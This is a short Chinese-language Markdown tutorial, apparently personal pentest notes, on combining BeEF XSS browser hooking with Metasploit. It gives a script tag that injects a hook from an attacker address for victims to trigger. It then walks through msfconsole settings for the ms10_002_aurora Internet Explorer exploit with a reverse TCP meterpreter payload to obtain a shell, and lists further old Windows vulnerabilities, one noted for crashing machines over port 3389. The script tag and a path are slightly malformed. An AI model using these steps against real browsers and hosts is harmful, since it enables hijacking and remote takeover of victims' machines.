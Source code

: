 # beef-xss
## XSS反弹
`<script> alert("hello XSS")</script>` 
## beef-xss 和 msf框架 组合
### 环境要求：
一台kali: 192.168.200.1
### 劫持
运行beef
`cd /use/share/beef-xss` \
`./beef` \
 \
会出现一个攻击地址和一个管理地址 \
`192.168.200.1:3000/hoos.js` /攻击地址 \
`<script>src="192.168.200.1:3000/hoos.js"</script>` /上传这个，有人点击，你就可以通过beef管理进行劫持 \
`192.168.200.1:3000/ui/panwl` /管理地址，账号密码都是beef \
里面有一个是redirect选项是网站劫持，这个配合msf IE漏洞，很好用
### 漏洞利用
`msfconsole` /运行msfconsole \
`use windows/browser/ms10_002_aurora` /使用模块 \
`set PAYLOAD windows/meterpreter/reverse_tcp` /设置攻击载荷 \
`show options` /显示设置参数 \
`set SRVHOST 192.168.200.1` /制作的网站地址 \
`set SRVPORT 7777` /制作的连接的端口 \
`set URIPATH /` /运行的环境目录 \
`set LHOST 192.168.200.1` /侦听的地址 \
`set LPORT 4444` /映射到的地址 \
`run` /制作 \
将生产的网址通过劫持网站访问，就可以拿到meterpreter,即拿到shell
### IE漏洞
ms10_018 \
ms10_046 \
ms12_004 \
ms08_067 /比较老的入侵漏洞 \
ms12_020 /通过3389，搞蓝屏 \

